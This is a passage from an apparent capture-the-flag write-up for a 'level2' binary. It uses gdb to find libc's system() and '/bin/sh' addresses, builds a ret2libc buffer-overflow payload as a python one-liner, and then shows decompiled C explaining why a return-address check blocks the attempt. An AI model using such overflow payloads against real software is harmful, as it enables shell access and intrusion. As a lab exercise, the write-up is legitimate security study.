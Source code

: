 So its 0xb7e6b060

"/bin/sh" address :

```gdb
(gdb) info proc map
process 5249
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fd9000 0xb7fdd000     0x4000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb)
```
And its 0xb7f8cc58

We can now run the exploit using python.

In the order, system() adresses + 4 random byte + "/bin/sh" address.

```py
python -c "print 'A' * 80 + '\x60\xb0\xe6\xb7' + '\x41\x41\x41\x41' + '\x58\xcc\xf8\xb7'" | ./level2
(0xb7e6b060)
```

Ok, something went wrong, reading the source code, this happens :

```c
void p(void)

{
  void *unaff_retaddr; // < We overwrote that variable
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if (((uint)unaff_retaddr & 0xb0000000) == 0xb0000000) { // And this if got triggered
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

```
